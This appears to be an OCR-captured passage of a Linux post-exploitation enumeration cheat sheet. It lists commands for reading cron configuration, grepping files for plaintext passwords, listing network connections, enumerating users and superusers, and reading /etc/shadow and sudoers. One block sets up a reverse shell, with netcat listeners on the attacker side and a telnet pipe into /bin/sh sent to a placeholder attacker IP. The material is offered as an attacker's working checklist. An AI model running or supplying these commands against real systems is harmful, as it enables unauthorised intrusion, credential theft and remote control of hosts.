 ~~~
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
~~~
~~~
What jobs are scheduled?
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
~~~
~~~
Any plain text usernames and/or passwords?
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
~~~
~~~
What other users & hosts are communicating with the system?
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
~~~
~~~
Have you got a shell? Can you interact with the system?
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
~~~
~~~
Confidential Information & Users
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?
id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l
~~~
~~~
What sensitive files can be found?
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
~~~
~~~
Anything "interesting" in the home directorie(s)? If it's possible to access
~~~